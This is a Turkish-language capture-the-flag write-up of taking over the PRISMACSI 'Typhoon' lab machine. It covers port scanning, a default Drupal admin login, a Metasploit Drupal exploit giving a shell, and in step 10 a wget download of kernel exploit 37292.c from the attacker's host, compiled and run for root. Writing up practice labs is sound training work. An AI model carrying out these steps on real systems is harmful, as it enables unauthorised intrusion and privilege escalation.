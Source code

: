 # PRİSMACSİ(DRUPAL) WRİTEUP
---------------------------------------------
PRISMACSI firmasının yayınladığı typhoon makinesindeki drupal ve linux kernel versiyonundan kaynaklanan zaafiyetlerden
yararlanarak ele geçirmemi anlatacağım.


## 1)İlk olaran nmap taraması yaparak açık olan portları ve üzerinde çalışan servisler hakkında bilgi topladım.

![image](/drupal/1.png)

## 2)Birçok port ve servisin çalıştığını öğrendikten sonra http üzerinden araştırmalarıma devam ettim.Hangi dizinlerin bulunduğunu bulmak için dirbuster taraması yaptım.

![image](/drupal/2.png)

## 3)Ve drupal burda gözüme çarpan ilk şey oldu.Direk bu adrese gittim.Admin girişi yapmak için şansımı denedim ve ilk denememde başarılı şekilde login oldum.(Username:Admin - Password:typhoon)

![image](/drupal/3.png)


![image](/drupal/4.png)

## 4)Daha drupal versiyonunu merak ettim ve wappalyzer eklentisiyle hangi teknolojilerinin kullanıldığının bilgilerini öğreniyorum.

![image](/drupal/5.png)

## 5)Burada drupal versiyonunu araştırmaya devam ediyorum.İlk olarak searchsploit üzerinden bulunan exploitleri listeliyorum.İşaretlemiş olduğum exploiti seçerek cve numarasını öğrenmek için exploit-db sayfasını ziyaret ettim.

![image](/drupal/6.png)


![image](/drupal/7.png)

## 6)CVE numarasını öğrendiğim exploiti metasploit üzerinden bulduktan sonra set ediyorum.

![image](/drupal/8.png)

## 7)Exploit için gerekli olan bilgileri girdikten sonra exploit işlemine başlıyorum .Meterpreter oturumu kurulduktan shell açıyorum.

![image](/drupal/9.png)

## 8)Sisteme giriş yaptıktan sonra bilgi toplamaya başladım.Burada linux kernel versiyonunu merak ediyorum.

![image](/drupal/10.png)

## 9)Bu versiyonu araştırmaya başlıyorum ve ilk olarak yine searchsploit üzerinden aramamı yapıyorum.Bulunan exploitler içinden uygun olanı seçiyorum.

![image](/drupal/11.png)


![image](/drupal/12.png)

## 10)İlk olarak bulduğum exploiti kendi makineme indiriyorum.Daha sonra kendi makinemden zafiyetli makineye wget(wget ip_adresim[:]8081[/]37292.c) aracılığla indiriyorum.İndirmiş olduğum exploiti gcc(gcc 37292.c -o exp) ile derledim sonra exploite execute(chmod + exp) yetkisi vererek çalıştırdım.Anında root olarak root dizinine gidiyorum ve root için bırakılmış flağı okuyorum.

![image](/drupal/13.png)


![image](/drupal/14.png)


